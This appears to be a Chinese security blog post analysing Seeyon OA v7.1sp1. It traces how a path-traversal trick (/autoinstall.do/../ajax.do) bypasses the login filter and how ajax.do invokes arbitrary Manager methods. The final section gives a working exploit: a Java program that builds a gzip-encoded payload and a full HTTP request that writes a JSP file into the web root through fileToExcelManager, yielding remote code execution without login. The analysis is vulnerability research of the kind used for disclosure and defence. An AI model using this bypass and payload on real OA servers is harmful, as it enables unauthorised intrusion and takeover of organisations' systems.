

# 某OA ajax.do处漏洞分析 - 先知社区

某OA ajax.do处漏洞分析

- - -

# ajax.do处漏洞分析

本次分析版本v7.1sp1  
/ajax.do可以调用其他类的方法，但ajax.do默认是不允许未授权访问的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091052-510ddf10-85af-1.png)  
登录后访问是这样子的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091104-58422516-85af-1.png)

## 权限绕过

观察web.xml发现.do结尾的路由会经过SecurityFilter  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091126-6561e24a-85af-1.png)  
CTPSecurityFilter类中做了校验，首先调用isSpringController进行校验  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091136-6bb93152-85af-1.png)  
isSpringController只要是.do结尾的或者包含.do;jsessionid都会返回true  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091149-73347266-85af-1.png)  
然后调用SpringControllerAuthenticator#authenticate  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091157-782280ba-85af-1.png)  
authenticate方法中判断是否登录，未登录调用this.isNeedlessCheckLogin  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091207-7e3f3f92-85af-1.png)  
isNeedlessCheckLogin中，如果路由是/ajax.do，会将accessUrl设置为managerName参数的值，这里没有传入，就是null  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091215-8296c196-85af-1.png)  
然后获取needlessUrlMap  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091225-88f1ff06-85af-1.png)  
遍历判断accessUrl是否在这个map中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091309-a2d74d04-85af-1.png)  
accessUrl为null的时候直接抛出异常了，传个managerName进行测试  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091318-a864948e-85af-1.png)  
isNeedlessCheckLogin返回false后赋值给isAnnotationNeedlessLogin，会调用到this.checkOnlineState  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091327-ade03468-85af-1.png)  
因为没有登录，所以checkOnlineState也会返回false  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091335-b2a028b4-85af-1.png)  
最后造成SpringControllerAuthenticator#authenticate返回false赋值给accept  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091343-b729539c-85af-1.png)  
当accept为false时，将不会进行filter链的调用  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091350-bb3121b8-85af-1.png)  
思考：在isNeedlessCheckLogin方法中，因为accessUrl不在needlessUrlMap中，导致返回false，那么使accessUrl为needlessUrlMap中存在的key，是否就会返回true，例如：/main.do  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091407-c5c3cd24-85af-1.png)  
那么ajax.do不在needlessUrlMap中，如何能够访问到ajax.do呢，可以利用spring的一个小trick，在低版本spring中alwaysUseFullPath为默认值false，本次分析版本中刚好alwaysUseFullPath也为false  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091414-c99bf25a-85af-1.png)  
当alwaysUseFullPath为false时，会调用getPathWithinServletMapping对url进行处理  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091420-cd09a978-85af-1.png)  
而getPathWithinServletMapping会对uri进行标准化处理，例如解码然后处理跨目录等，这就导致了可能的身份验证绕过  
成功绕过  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091431-d3beaab6-85af-1.png)

## ajax.do调用流程

接下来分析ajax.do是如何调用类的  
/ajax.do对应的是com.seeyon.ctp.common.service.AjaxController类  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091451-dfb67d44-85af-1.png)  
调用其他类的逻辑主要在ajaxAction方法中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091456-e2dc9df0-85af-1.png)  
返回的字符是outStr，outStr调用了invokeService方法进行处理，接着如果传入了ClientRequestPath参数且不为黑名单的，会调用ZipUtil.compressResponse进行解压缩  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091502-e68849ea-85af-1.png)  
跟进invokeService方法，首先分别获取serviceName、methodName、strArgs、compressType，然后根据传入的compressType，调用ZipUtil.uncompressRequest对strArgs进行处理  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091507-e9645884-85af-1.png)  
跟进uncompressRequest，可以看到，如果compressType是gzip的话会进行gzip解压缩，如果不是的话，就会返回原本的数据  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091514-eda6a226-85af-1.png)  
回到invokeService方法，根据传入的serviceName调用getService方法，然后返回一个对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091520-f119c8c0-85af-1.png)  
跟进getService方法，调用了AppContext.getBean方法来获取对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091525-f3c9c05c-85af-1.png)  
跟进getBean方法，从beanCacheMap中获取缓存好的对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091530-f6ffea94-85af-1.png)  
beanCacheMap中存放了Manager的名字和对应的对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091535-fa0c8c42-85af-1.png)  
回到getService方法，获取到对象后，还会判断其是否继承DataSource、Session、SessionFactory三个类，并且不为空，满足条件后return  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091542-fe23b198-85af-1.png)  
返回invokeService方法，获取到对象后，会调用invokeMethod方法，传入获取到的对象、方法名、参数、类名  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091547-01412f90-85b0-1.png)  
跟进invokeMethod方法，先将传入的strArgs参数解析成了Object对象，接着判断这个对象是否为List子类的实例，是的话会将Object强制转换成List对象，否则就会创建一个ArrayList对象。然后将传入的Object添加到ArrayList中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091553-04923306-85b0-1.png)  
经接着会将serviceName + "*" + methodName + "*" + argsNum作为键值在this.candidateMethodCache中获取已经缓存的方法，返回一个list，如果获取到则会将传入的strArgs和list作为参数调用this.findMethodAndArgs((List)l, (List)list)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091558-079e2488-85b0-1.png)  
没获取到的话，会调用this.judgeCandidate  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091603-0aad6a1c-85b0-1.png)  
judgeCandidate方法中会反射获取services的所有方法，有符合的方法名和符合的所需参数个数的话，就会将这个方法加入到list中，返回list  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091608-0de7a13e-85b0-1.png)  
将返回的list作为参数，调用findMethodAndArgs方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091617-12c95d3c-85b0-1.png)  
findMethodAndArgs方法中，返回具体的Method对象和参数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091626-1867a6e0-85b0-1.png)  
将键值加入缓存  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091632-1bd67680-85b0-1.png)  
反射调用对应的方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091638-1f87ca68-85b0-1.png)  
总结：beanCacheMap中存放了Manager的名字和对应的对象，可以通过传参调用对象的任意方法

## 修改权限绕过

当利用权限绕过的方式尝试调用对应的Manager时，会发现绕不过去了

```plain
/main.do/../ajax.do?method=ajaxAction&managerName=constDefManager&managerMethod=listPage
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091730-3eafb694-85b0-1.png)  
进行调试分析，发现是因为传入了method参数后，method为ajaxAction  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091739-4402e40e-85b0-1.png)  
这里返回了false  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091745-474b5d76-85b0-1.png)  
key为/main.do时返回的方法中没有ajaxAction，导致没有匹配成功返回false，/main.do/../ajax.do因为没传method参数，method为index，而main.do时返回的方法中含有index，所以可以绕过  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091751-4b0b5060-85b0-1.png)  
继续观察发现methods.contains("*") || methods.contains(method)，只要2个条件成立一个就行了，methods.contains("*")就是表示needlessUrlMap.get(key)返回的methods中包含\*就行了  
而autoinstall.do刚好满足这个条件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091802-51a03b84-85b0-1.png)  
所以可以利用autoinstall.do来进行权限绕过，利用ajax.do调用相应的Manager

```plain
/autoinstall.do/../ajax.do?method=ajaxAction&managerName=constDefManager&managerMethod=listPage
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091820-5c85661e-85b0-1.png)

## 漏洞利用

有很多Manager都存在漏洞，这里简单提一个fileToExcelManager，其saveExcelInBase方法存在文件上传问题，从而造成rce  
接受3个参数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091839-67e20e86-85b0-1.png)  
保存文件，并没有对文件名进行校验  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091848-6cdb6b4e-85b0-1.png)  
需要注意的是这里写入的文件，会在前后加入2个双引号，直接插入shell是不行的，解析不了，我们可以利用换行符和双引号来闭合前后的双引号，从而使中间的shell内容能够解析  
构造payload

```plain
import com.seeyon.ctp.common.excel.DataRecord;
import com.seeyon.ctp.common.log.CtpLogFactory;
import com.seeyon.ctp.util.ZipUtil;
import com.seeyon.ctp.util.json.JSONUtil;
import org.apache.commons.logging.Log;

import java.net.URLEncoder;
import java.util.ArrayList;

public class fileToExcelManagerPayload {
    private static final Log LOGGER = CtpLogFactory.getLog(fileToExcelManagerPayload.class);
    public static void main(String[] args) {

        DataRecord d = new DataRecord();
        String[] c = {"\"\r\n"+"<% out.println(\"ttttttttt\"); %>"+"\"\r\n"};
        d.setColumnName(c);
        String dd = JSONUtil.toJSONString(d);
        final ArrayList<Object> list = new ArrayList<>();
        list.add("../webapps/ROOT/x.jsp");
        list.add("\"\"");
        list.add(d);
        final String list1 = JSONUtil.toJSONString(list);
        String strArgs = ZipUtil.compressResponse(list1, "gzip", "UTF-8", LOGGER);
        System.out.println(URLEncoder.encode(strArgs));
        System.out.println("end");

    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091916-7d76753e-85b0-1.png)

```plain
POST /seeyon/autoinstall.do/../ajax.do?method=ajaxAction&managerName=fileToExcelManager HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 6357

managerMethod=saveExcelInBase&managerName=fileToExcelManager&method=ajaxAction&requestCompress=gzip&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00%5D%C2%8D%C3%81%0A%C3%820%10D%7F%C2%A5%2C%14%14B%C3%A2%C2%B9%C2%8A%C3%A7%1E%C3%84%C2%82%14%3C4%3D%C2%A46%C3%98H%C2%9A%C2%84dC%05%C3%B1%C3%9FM%09zp%C3%B64%C2%8F%C3%A5M%07%C2%94%C2%B2E%0E%C3%82%C2%B9%C3%80.M%C3%93%C2%B2%27%7D%04%07%04x%3A+%2F%C2%B8Y%1Dgs%16%C2%B3%C2%84%C2%AA%5B%C2%A9%C3%A7%C3%A6P%166%22u%5E%19%C3%94f%C3%83%01%C2%BF%C3%A1%C2%B0%C3%9D%17%C3%A51%C2%BFAO%60%14%28j%29%C3%86%C2%93%0A%C2%98%04%C2%89d%C3%A1U%C3%A1%04%C2%95%C2%89Z%13%08%C2%93%C2%94%C2%98%172%40%C2%85%C3%BAWB%1C%C3%9A%C2%BF%5EKu%C2%9F%C2%92nG%C3%80%C3%9Be%C3%95%C2%BE%C3%BB%0F%C3%8BJZ%C2%B7%C3%8A%00%00%00
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091942-8d7f8d3a-85b0-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231118091947-9006927e-85b0-1.png)
